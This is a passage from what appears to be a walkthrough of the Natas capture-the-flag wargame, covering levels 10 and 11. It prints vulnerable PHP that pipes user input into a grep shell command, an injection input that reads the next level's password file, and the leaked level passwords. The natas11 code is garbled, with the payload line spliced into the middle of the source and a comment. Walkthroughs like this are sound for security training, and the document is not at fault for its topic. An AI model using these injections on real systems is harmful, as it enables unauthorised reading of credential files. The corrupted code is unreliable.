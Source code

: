 ```text
Output:

/etc/natas_webpass/natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
```

### natas10

view source

```php
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
```

now there is some input validation to avoid things like ; \| and &, but our trick from natas09 still works here.

```text
1 /etc/natas_webpass/natas11
```

```text
Output:

/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
```

### natas11

Cookies are protected with XOR encryption

view source

```php
$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';
1 /etc/natas_webpass/natas11
    // Iterate through eac1 /etc/natas_webpass/natas11h character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

function loadData($def) {
    global $_COOKIE;
    $mydata = $def;
    if(array_key_exists("data", $_COOKIE)) {
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
```